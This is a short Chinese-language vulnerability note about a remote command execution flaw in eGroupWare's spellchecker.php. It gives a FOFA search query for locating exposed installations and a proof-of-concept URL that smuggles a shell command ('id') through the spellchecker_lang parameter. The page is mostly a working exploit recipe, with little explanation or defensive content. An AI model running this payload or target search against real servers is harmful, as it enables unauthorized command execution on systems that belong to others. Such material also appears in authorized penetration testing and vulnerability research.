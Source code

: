 # eGroupWare spellchecker.php 远程命令执行漏洞

## 漏洞描述

*eGroupWare*是一个多用户，在以PHP为基础的API上的定制集为基础开发的，以WEB为基础的工作件套装，其中 spellchecker.php 文件中存在命令执行漏洞

## 漏洞影响

```
eGroupWare
```

## FOFA

```
app="EGROUPWARE-产品"
```

## 漏洞复现

登录页面

![image-20220524171233435](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241712519.png)

验证POC

```
/egroupware/phpgwapi/js/fckeditor/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php?spellchecker_lang=egroupware_spellchecker_cmd_exec.nasl%7C%7Cid%7C%7C
```

![image-20220524171251702](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241712784.png)